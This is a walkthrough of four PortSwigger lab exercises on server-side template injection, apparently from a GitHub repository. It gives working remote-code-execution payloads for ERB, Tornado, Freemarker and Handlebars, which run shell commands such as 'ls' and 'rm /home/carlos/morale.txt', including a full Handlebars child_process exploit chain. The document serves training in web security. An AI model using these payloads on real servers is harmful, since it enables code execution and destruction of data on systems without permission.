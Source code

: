 ## Basic SSTI
[Basic SSTI](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

Write-up:

1. When we click the first product, we see the message "Unfortunately this product is out of stock."
If we change the message parameter to `<%= 7*7 %>`, we see that it returns 49 - ERB injection possibility.

2. Changing the message parameter to `<%= system 'ls' %>` shows us the **morale.txt** file.
   
3. We can use `<%= system 'rm morale.txt' %>` to solve the lab.

## Basic SSTI (code context)
[Basic SSTI (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Write-up:

1. After logging in, we see there are two actions in our account - changing e-mail and preferred name.
Analyzing both these requests shows us that changing preferred name has an interesting parameter that changes our name display in post comments. For example, changing preferred name to name uses parameter `blog-post-author-display=user.name`.

2. After studying the Tornado docs, we see that its template expressions are surrounded by curly braces, so we can use these to escape and execute code: <br>
    `blog-post-author-display=user.name}}{{7*7}}` <br>
    This shows us 49, which points to code being executed.

3. Using {% %} to execute arbitrary code, we can craft the following payload: <br>
    `blog-post-author-display=user.name}}{%25%20import%20os%20%25}{{os.system('rm%20/home/carlos/morale.txt')}}` <br>
    URL-encoding the necessary characters (spaces - %20 and % - %25). This solves the lab.

## SSTI using documentation
[SSTI using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

Write-up:

1. We are instructed to discover the template engine used. If we click one of the posts, we have
the option to edit a template, we can see that code is being executed to retrieve stock, for example.

2. Using this [tool](https://cheatsheet.hackmanit.de/template-injection-table/), 
we discover that this lab uses a Freemarker template.

3. Using the [documentation](https://freemarker.apache.org/docs/api/index.html), we craft the following payload: <br> `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}` <br> This solves the lab.

## SSTI in an unknown language with a documented exploit
[SSTI in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

Write-up:

1. Like in the **Basic SSTI** lab, we can change a message parameter. Using this
[tool](https://cheatsheet.hackmanit.de/template-injection-table/), we discover 
this lab is using a Handlebars template (Javascript).

2. Searching the internet for documented Handlebars SSTI exploits, we find this
[link](https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2).

3. Using the Node.js [docs](https://nodejs.org/api/child_process.html) for child_process,
we can craft the following payload: <br>
    ```
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');" }}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
    ```

4. URL-encoding this payload and submitting it as **message** solves the lab.